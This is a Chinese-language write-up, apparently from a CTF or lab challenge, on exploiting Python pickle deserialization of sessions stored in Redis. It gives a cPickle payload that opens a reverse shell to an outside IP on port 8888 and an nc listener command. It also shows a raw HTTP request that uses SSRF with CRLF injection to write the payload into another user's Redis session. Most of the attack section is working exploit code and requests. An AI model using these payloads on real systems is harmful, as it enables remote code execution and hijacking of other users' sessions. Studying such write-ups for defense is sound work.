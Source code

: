 发现session存储的是利用python的序列化字符串存在redis里的，故当我们携带session访问时，就会反序列化读到我们的信息，这里是username。而且所以session存储的key就是session:加上cookie中的session值（点之前），故生成一个反弹shell的python反序列化payload，然后覆盖我们自己的session，然后重新访问网页即可触发反序列化漏洞。

## 利用python反序列化攻击session

不过测试无法只利用一个用户修改自己的session，这里采用a用户修改b用户的session，然后再用b的session去访问网页，即可触发漏洞，利用发方法如下：

首先用nc开启监听端口：

```
➜ nc -l 8888
```

然后生成python反序列化的反弹shell的payload：

```python
import cPickle
import os

class exp(object):
    def __reduce__(self):
        s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("183.172.25.54",8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"""
        return (os.system, (s,))

e = exp()
s = cPickle.dumps(e)
print s.replace("\n",'\\n').replace("\"","\\\"")
```

payload如下：

```python
cposix\nsystem\np1\n(S'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"183.172.25.54\",8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);\''\np2\ntRp3\n.
```

利用a用户（8362245b）去修改另一个b用户（d11dd213）的session

```python
POST /download/ HTTP/1.1
Host: 47.93.12.191:7002
Content-Length: 370
Accept: */*
Origin: http://47.93.12.191:7002
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: http://47.93.12.191:7002/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=8362245b-b150-4ec4-9580-ce41199a2ee6.ribkYinQThE-ex26rLtYhRi8Lkw;BD_UPN=123253
Connection: close

url=http://127.0.0.1:6379?%0d%0aset "session:d11dd213-7e07-42b9-81be-31531f7fbbfa" "cposix\nsystem\np1\n(S'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"183.172.25.54\",8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);\''\np2\ntRp3\n."%0d%0apadding
```

